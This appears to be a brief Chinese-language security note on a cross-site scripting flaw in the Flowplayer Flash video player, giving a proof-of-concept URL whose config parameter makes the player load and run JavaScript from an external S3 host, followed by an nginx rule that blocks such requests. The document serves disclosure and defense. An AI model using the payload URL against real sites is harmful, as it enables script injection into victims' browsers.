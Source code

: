 # flowplayer视频播发器XSS跨站漏洞

http://example.com/static/flowplayer/v3.2.6/flowplayer-3.2.7.swf?config=https://s3-us-west-2.amazonaws.com/bxss/fp.js

在火狐浏览器上输入上面安全隐患位置的URL， alert弹出ExternalInterfaceXSSImURL1，则表示存在该漏洞。

由于该漏洞是flash会远程执行url上带有config所指定网站的js，所以需要用正则判断，url中如果通过带有flowplayer和config，则表示非法的URL请求，返回403即可。正则如下：

```shell

location /static {
    if ($request_uri ~* flowplayer(.*)config=) {
        return 403;
    }
    .......
}

```